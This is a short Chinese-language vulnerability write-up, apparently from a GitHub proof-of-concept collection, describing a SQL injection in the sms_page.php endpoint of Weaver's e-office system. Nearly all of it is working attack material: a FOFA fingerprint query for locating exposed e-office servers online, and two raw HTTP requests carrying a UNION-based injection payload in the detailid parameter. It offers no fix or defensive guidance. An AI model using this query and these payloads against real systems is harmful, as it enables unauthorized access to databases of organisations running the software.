 
# 泛微e-office系统sms_page.php接口存在sql注入漏洞

泛微e-office系统在sms_page.php接口下存在sql注入漏洞

## fofa

```javascript
((header="general/login/index.php" || body="/general/login/view//images/updateLoad.gif"    || (body="szFeatures" && body="eoffice") || header="Server: eOffice") && body!="Server:    couchdb") || banner="general/login/index.php"
```

## poc

```javascript
GET /E-mobile/sms_page.php?detailid=123%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,CONCAT(0x7e,md5(123),0x7e),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1


GET /sms_page.php?detailid=123%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,CONCAT(0x7e,md5(123),0x7e),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1


```
